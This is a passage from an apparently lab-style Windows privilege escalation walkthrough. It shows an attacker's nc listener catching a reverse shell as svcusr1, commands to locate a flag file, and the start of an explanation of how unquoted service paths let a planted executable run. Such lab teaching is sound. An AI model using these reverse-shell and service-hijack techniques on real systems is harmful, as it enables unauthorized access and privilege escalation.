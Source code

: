 As a result, you'll get a reverse shell with svcusr1 privileges:
```
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
```
Go to svcusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.
Use below command to find flag.
`dir "\flag*/" /s`
`cd C:\User\Jack|Desktop`
`type flag1.txt`

### Unquoted Service Paths
When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by `"C:\Program Files\RealVNC\VNC Server\vncserver.exe"`, followed by the given parameters:
```
C:\> sc qc "vncserver"
SERVICE_NAME: vncserver
BINARY_PATH_NAME : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
```
Now let's look at another service without proper quotation:
```
C:\> sc qc "disk sorter enterprise"
SERVICE_NAME: disk sorter enterprise
BINARY_PATH_NAME : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
```

This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute `C:\\MyPrograms\\Disk.exe` and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

